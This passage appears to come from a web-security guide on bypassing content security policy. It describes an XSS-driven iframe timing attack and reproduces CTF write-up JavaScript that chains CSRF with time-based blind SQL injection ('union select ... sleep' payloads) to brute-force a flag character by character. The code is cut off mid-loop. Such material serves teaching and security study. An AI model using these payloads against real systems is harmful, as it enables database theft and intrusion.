 ### img-src \*; via XSS (iframe) - Time attack

Notice the lack of the directive `'unsafe-inline'`\
This time you can make the victim **load** a page in **your control** via **XSS** with a `<iframe`. This time you are going to make the victim access the page from where you want to extract information (**CSRF**). You cannot access the content of the page, but if somehow you can **control the time the page needs to load** you can extract the information you need.

This time a **flag** is going to be extracted, whenever a **char is correctly guessed** via SQLi the **response** takes **more time** due to the sleep function. Then, you will be able to extract the flag:

```html
<!--code from https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle -->
<iframe name="f" id="g"></iframe> // The bot will load an URL with the payload
<script>
  let host = "http://x-oracle-v1.nn9ed.ka0labs.org"
  function gen(x) {
    x = escape(x.replace(/_/g, "\\_"))
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`
  }

  function gen2(x) {
    x = escape(x)
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`
  }

  async function query(word, end = false) {
    let h = performance.now()
    f.location = end ? gen2(word) : gen(word)
    await new Promise((r) => {
      g.onload = r
    })
    let diff = performance.now() - h
    return diff > 300
  }

  let alphabet = "_abcdefghijklmnopqrstuvwxyz0123456789".split("")
  let postfix = "}"

  async function run() {
    let prefix = "nn9ed{"
    while (true) {
      let i = 0
      for (i; i < alphabet.length; i++) {
        let c = alphabet[i]
        let t = await query(prefix + c) // Check what chars returns TRUE or FALSE
        console.log(prefix, c, t)
        if (t) {
          console.log("FOUND!")
          prefix += c
          break
        }
      }
      if (i == alphabet.length) {
        console.log("missing chars")
        break
      }
      let t = await query(prefix + "}", true)
      if (t) {
        prefix += "}"
        break
```